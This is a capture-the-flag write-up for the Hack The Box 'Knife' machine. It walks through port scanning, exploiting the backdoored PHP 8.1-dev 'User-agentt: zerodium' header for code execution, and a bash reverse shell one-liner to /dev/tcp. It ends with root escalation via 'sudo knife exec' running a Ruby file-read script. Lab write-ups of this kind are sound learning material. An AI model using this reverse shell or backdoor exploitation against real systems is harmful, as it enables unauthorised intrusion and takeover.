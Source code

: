 # Knife 
#Linux #CTF #HTB 

OS: Linux 
IP : 10.10.10.242
Rank : Easy 

## setup 
```bash
echo "10.10.10.242 knifte.htb" >> /etc/hosts
```


## Recon 

Lets start firing up a nmap scan 
```bash
nmap -sV -sC  -o nmapscan knife.htb

Not shown: 998 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)  
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)  
|\_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)  
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
| http-methods:    
|\_  Supported Methods: GET HEAD POST OPTIONS  
|\_http-server-header: Apache/2.4.41 (Ubuntu)  
|\_http-title:  Emergent Medical Idea  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
```


We see a HTTP port is open, lets go to it. 

![[Pasted image 20210523053510.png]]

A very simple HTTP page, nothing is clickable, lets try different file type. 
We can see it uses PHP, time to emulate the site for sub directory

````bash
gobuster dir -u https://knife.htb -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -t 50 -k
````

Nothing of value here.. 

It time for the most powerful tool *google*  lets google the Apache version for vulnabilities. 
Going to apache site we learn of two vulnabilities that have been fixed in version *2.4.42*
[Sorce](https://httpd.apache.org/security/vulnerabilities_24.html)
One of them look interesting *CVE-2020-1934* We learn that the website must have the *mod\_proxy\_ftp* mod on the website to be vulnerable. 
Nothing of value here.

Fire-up burp and lets see what the response look like from there. 

![[Pasted image 20210523062802.png]]

we learn that is uses *php/8.1*, lets try google it for any information, after alot of googling I came across a post about a backdoor created by hacker by adding code to the source. 
[source](https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/)


We learn that we can send a request with *User-agentt* that start with *zerodium*  it will then execute every php code after the code word.  

![[Pasted image 20210523065714.png]]

Fire up a netcat listner 

```bash
nc -lvnp 4444
```

As you can see we are able to execute code on the machine and get it to fire up a netcat to our machine. lets create a backdoor using netcat, insert your IP. 
```bash
'bash -c "bash -i >& /dev/tcp/10.10.14.19/4444 0>&1"'
```

And we got user access, let grap the flag

```bash
cat /home/james/user.txt
```

## Privilege escalation

Running *sudo -l* we learn that we are allow to execute knife as admin, which a tool for manage chef instance. 

[documentation](https://docs.chef.io/workstation/knife/)

By using *knife exec* we are allow to execute ruby scripts and it our case ruby code as root. 
lets create a small script which read the flag. 
 
```bash
echo 'print File.read("/root/root.txt")' > test.rb
sudo knife exec test.rb
```

And we got root.
